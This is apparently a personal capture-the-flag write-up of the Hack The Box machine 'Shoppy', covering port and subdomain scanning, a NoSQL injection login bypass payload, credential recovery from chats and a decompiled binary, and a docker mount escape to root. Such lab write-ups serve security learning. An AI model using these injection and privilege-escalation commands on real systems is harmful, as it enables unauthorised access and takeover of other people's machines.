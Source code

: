 # Shoppy

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption><p>nice box tbh</p></figcaption></figure>



## Recon

### nmap scan

```bash
└─➜ cat ports.scan                                                                                                                                                                        [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-04 17:39 IST
Stats: 0:00:19 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 17:40 (0:00:00 remaining)
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 17:40 (0:00:00 remaining)
Nmap scan report for shoppy.htb (10.129.227.233)
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page
|_http-server-header: nginx/1.23.1
9093/tcp open        copycat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.29 seconds
```



### directory scanning

* I found few directories `/admin` & `/login` were intresting&#x20;
* `/admin` was redirecting to `/login`

### subdomain scan

```bash
ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt  \
-fs 169    
```

* found `mattermost`
* Adding `mattermost.shoppy.htb` in `/etc/hosts`

## Initial FootHold

### Web attack

* Mattermost index page had login page, tried sqli, didnt' work.
* Tried nosqli paylaod, worked!!

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

* payload :&#x20;

```javascript
{
    "username": "admin' || 'a'=='a",
    "password": "password"
}
```

* Read similar payloads from hacktricks

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

#### Admin access (shoppy.htb)

* After getting admin, we can see a feature called `search-users`
* i tried with same payload eariler, and it worked ( `admin' || 'a'=='a` )

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

* the admin has wasn't crackable
* password for josh was `remembermethisway`

#### Login josh on subdomain

* After login, we can see some private/public chats
* upon visiting [http://mattermost.shoppy.htb/shoppy/channels/deploy-machine](http://mattermost.shoppy.htb/shoppy/channels/deploy-machine), we can ssh creds for user jaeger



## User shell (jaeger)

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption><p>Sh0ppyBest@pp!</p></figcaption></figure>

### Decompilng Binary&#x20;

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger:
Sorry, try again.
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$

```

* we can run password-manager as deploy

#### Decompiling the binary with ghidra

* main function

```cpp
bool main(void)

{
  int iVar1;
  basic_ostream *pbVar2;
  basic_string<> local_68 [32];
  basic_string local_48 [47];
  allocator<char> local_19 [9];
  
  pbVar2 = std::operator<<((basic_ostream *)std::cout,"Welcome to Josh password manager!");
  std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
  std::operator<<((basic_ostream *)std::cout,"Please enter your master password: ");
  std::__cxx11::basic_string<>::basic_string();
                    /* try { // try from 00101263 to 00101267 has its CatchHandler @ 001013cb */
  std::operator>>((basic_istream *)std::cin,local_48);
  std::allocator<char>::allocator();
                    /* try { // try from 00101286 to 0010128a has its CatchHandler @ 001013a9 */
  std::__cxx11::basic_string<>::basic_string((char *)local_68,(allocator *)&DAT_0010205c);
  std::allocator<char>::~allocator(local_19);
                    /* try { // try from 001012a5 to 00101387 has its CatchHandler @ 001013ba */
  std::__cxx11::basic_string<>::operator+=(local_68,"S");
  std::__cxx11::basic_string<>::operator+=(local_68,"a");
  std::__cxx11::basic_string<>::operator+=(local_68,"m");
  std::__cxx11::basic_string<>::operator+=(local_68,"p");
  std::__cxx11::basic_string<>::operator+=(local_68,"l");
  std::__cxx11::basic_string<>::operator+=(local_68,"e");
  iVar1 = std::__cxx11::basic_string<>::compare(local_48);
  if (iVar1 != 0) {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,
                             "Access denied! This incident will be reported !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
  }
  else {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,"Access granted! Here is creds !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
    system("cat /home/deploy/creds.txt");
  }
  
  <<snipped>>
```

* it's checking the input with word `Sample`

```cpp
iVar1 = std::__cxx11::basic_string<>::compare(local_48);
  if (iVar1 != 0) {
    pbVar2 = std::operator<<((basic_ostream *)std::cout,
                             "Access denied! This incident will be reported !");
    std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar2,std::endl<>);
```

* if it's satisfied we can read creds.txt file



### Priv Esc (jaeger -> deploy)

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```



## Root Shell

* we had a docker image , searching docker on GTFObins, we get a payload.
* Using that payload get us root shell

```bash
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
alpine       latest    d7d3d98c851f   17 months ago   5.53MB

deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt
b9402724d139<<snipped>>
#
```
